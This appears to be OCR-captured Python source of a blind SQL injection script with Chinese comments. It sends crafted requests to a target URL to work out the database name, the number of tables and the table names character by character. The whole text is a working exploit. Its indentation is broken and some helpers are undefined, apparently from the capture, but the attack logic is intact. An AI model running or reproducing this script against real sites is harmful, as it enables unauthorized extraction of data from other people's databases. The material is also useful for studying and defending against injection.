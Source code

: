 	def db_length(url,str):
	print("[-]开始测试数据库名长度.......")
	num=1
	while True:
		db_payload=url+"' and (length(database())=%d)--+"%num
		r=requests.get(db_payload)
		if str in r.text:
			db_length=num
			print("[+]数据库长度：%d\n"%db_length)
			db_name(db_length)#进行下一步，测试库名
			break
		else:
			num += 1

	def db_name(db_length):
	print("[-]开始测试数据库名.......")
	db_name=''
	str_list=ascii_str()
	for i in range(1,db_length+1):
		for j in str_list:
			db_payload=url+"' and (ord(mid(database(),%d,1))='%s')--+"%(i,ord(j))
			r=requests.get(db_payload)
			if str in r.text:
				db_name+=j
				break
	print("[+]数据库名：%s\n"%db_name)
	tb_piece(db_name)#进行下一步，测试security数据库有几张表
	return db_name
	
	def tb_piece(db_name):
	print("开始测试%s数据库有几张表........"%db_name)
	for i in range(100):#猜解库中有多少张表，合理范围即可
		tb_payload=url+"' and %d=(select count(table_name) from information_schema.tables where table_schema='%s')--+"%(i,db_name)
		r=requests.get(tb_payload)
		if str in r.text:
			tb_piece=i
			break
	print("[+]%s库一共有%d张表\n"%(db_name,tb_piece))
	tb_name(db_name,tb_piece)#进行下一步，猜解表名


	def tb_name(db_name,tb_piece):
	print("[-]开始猜解表名.......")
	table_list=[]
	for i in range(tb_piece):
		str_list=ascii_str()
		tb_length=0
		tb_name=''
		for j in range(1,20):#表名长度，合理范围即可
			tb_payload=url+"' and (select length(table_name) from information_schema.tables where table_schema=database() limit %d,1)=%d--+"%(i,j)
			r=requests.get(tb_payload)
			if str in r.text:
				tb_length=j
				print("第%d张表名长度：%s"%(i+1,tb_length))
				for k in range(1,tb_length+1):#根据表名长度进行截取对比
					for l in str_list:
						tb_payload=url+"' and (select ord(mid((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)))=%d--+"%(i,k,ord(l))
						r=requests.get(tb_payload)
						if str in r.text:
							tb_name+=l
				print("[+]：%s"%tb_name)
				table_list.append(tb_name)